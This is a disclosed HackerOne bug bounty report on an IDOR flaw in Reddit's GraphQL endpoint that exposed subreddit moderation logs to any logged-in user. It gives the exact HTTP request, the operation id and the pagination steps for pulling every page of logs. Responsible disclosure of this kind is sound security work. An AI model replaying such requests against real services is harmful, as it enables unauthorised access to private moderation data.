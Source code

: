 # Getting access of mod logs from any public or restricted subreddit with IDOR vulnerability

## Report Details
- **Report ID**: 1658418
- **URL**: https://hackerone.com/reports/1658418
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-08-03T18:07:40.644Z
- **Disclosed**: 2022-08-04T19:38:47.697Z

## Reporter
- **Username**: high_ping_ninja
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
## Summary:
There's no check if the user is moderator of the particular subreddit or not while trying to access the mod logs via gql.reddit.com by using operation id. You can change the parameter **subredditName** to any target subreddit name which is public or restricted and get access to mod logs of that subreddit.

## Steps To Reproduce:
+  Log into any account as an attacker and get the authorization token
+ Send request given below at gql.reddit.com
```
POST / HTTP/2
Host: gql.reddit.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 62
X-Reddit-Compression: 1
Origin: https://www.reddit.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Authorization: Bearer ourtoken
Referer: https://www.reddit.com/
Te: trailers

{"id":"6243efcbc61d","variables":{"subredditName":"any-subreddit"}}
```
The response will look something like below
{F1851522}
+ It only gives one page of logs.Look at the response and see if the value of **hasNextPage** is true or false. If It's false then there are no more logs other than the ones we got
+ If it's true then there are more logs and we can get them by just adding new variable **after** and assigning value of **endCursor**, which we can see in the reponse body of our request {F1851533}
+ Final request body will look something like this
```
{"id":"6243efcbc61d","variables":{"subredditName":"any-subreddit",
"after":"code-from-endCursor"
}}
```
+ After sending the request we'll get second page of logs. If we still get **hasNextPage** as true, Keep doing this untill we see **hasNextPage** set to false in the response. by doing this we can get all the pages of mod logs one by one.

> Use this script to make things easier in confirming this vulnerability (F1851561)
> The output will get stored in mod_log_out.txt in the same directory

  * [attachment / reference]

F1851522
F1851533
F1851561

## Impact

Confidential information getting exposed.

## Attachments
- responsebody1.png
- endCursorCode.png
- mod_logs.sh
